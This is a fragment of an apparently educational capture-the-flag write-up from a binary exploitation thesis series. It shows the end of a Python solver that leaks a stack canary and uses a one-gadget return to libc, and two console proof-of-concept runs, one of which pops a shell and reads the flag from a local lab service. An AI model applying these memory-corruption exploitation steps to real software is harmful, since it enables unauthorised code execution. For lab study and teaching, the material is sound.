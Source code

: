 ```python
  print(colored("[+] Canary    @ " + str(hex(canary))))

  # Does not work because of limited payload
  # ret2libc(r, prompt, offset, canary)
  
  # For limited payload we use one gadget
  one_gadget(r, offset, canary)

if __name__ == "__main__":
  pwn()
```

### PoC 🏁

```console
➜  challenge git:(main) ✗ python solver.py 
[*] '/home/w3th4nds/github/Thesis/challenge9/challenge/challenge9'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 14 cached gadgets for './challenge9'
[*] '/home/w3th4nds/github/Thesis/challenge9/challenge/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 0.0.0.0 on port 1337: Done
[+] Libc base @ 0x7f600fd41000
[+] PIE base  @ 0x55f3aa0d0000
[+] Canary    @ 0x1394044bf141ce00
[*] Switching to interactive mode
 $ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat flag.txt
FLAG{0n3_g4dg3t_2_g4dg3t5_thr33_g4dg3t5}$ 
[*] Interrupted
[*] Closed connection to 0.0.0.0 port 1337
```

```console
➜  challenge git:(main) ✗ python solver.py
[*] '/home/w3th4nds/github/Thesis/challenge9/challenge/challenge9'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 14 cached gadgets for './challenge9'
[*] '/home/w3th4nds/github/Thesis/challenge9/challenge/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './challenge9': pid 17407
[+] Libc base @ 0x7f61219b6000
[+] PIE base  @ 0x55bc9837a000
[+] Canary    @ 0xc5b1b46d1ebf200
[*] Switching to interactive mode
 [*] Process './challenge9' stopped with exit code 0 (pid 17407)
[*] Got EOF while reading in interactive
```